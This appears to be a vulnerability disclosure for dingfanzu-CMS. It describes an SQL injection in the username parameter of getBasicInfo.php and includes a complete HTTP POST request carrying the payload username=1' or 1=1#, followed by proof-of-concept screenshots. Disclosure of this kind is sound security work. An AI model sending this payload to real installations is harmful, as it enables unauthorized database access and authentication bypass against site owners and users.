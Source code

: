 # dingfanzu-CMS getBasicInfo.php username SQL-inject

**Exploit Title: dingfanzu-CMS getBasicInfo.php username SQL inject**

**Exploit Author: webraybtl@webray.com.cn inc**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "getBasicInfo.php" username module, resulting in the generation of SQL injection.

    Payload used:

```
POST /ajax/getBasicInfo.php HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_9bb651f2bb5622d49b0299560d6559cd=1724296185; Hm_lpvt_9bb651f2bb5622d49b0299560d6559cd=1724296185; HMACCOUNT=972263C9F6177EA8; PHPSESSID=6tpdrcitemfg08ghc7vtcjvuo7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

username=1' or 1=1#
```

## Proof of Concept
![image](https://github.com/user-attachments/assets/becc5551-8baf-4a6f-b19a-e520022ecbc6)

![image](https://github.com/user-attachments/assets/1f86a55c-dabf-4670-831f-d15be59ed4f1)

![image](https://github.com/user-attachments/assets/6afe1a37-a9ab-47fd-8156-ef0dfcfb6e5f)

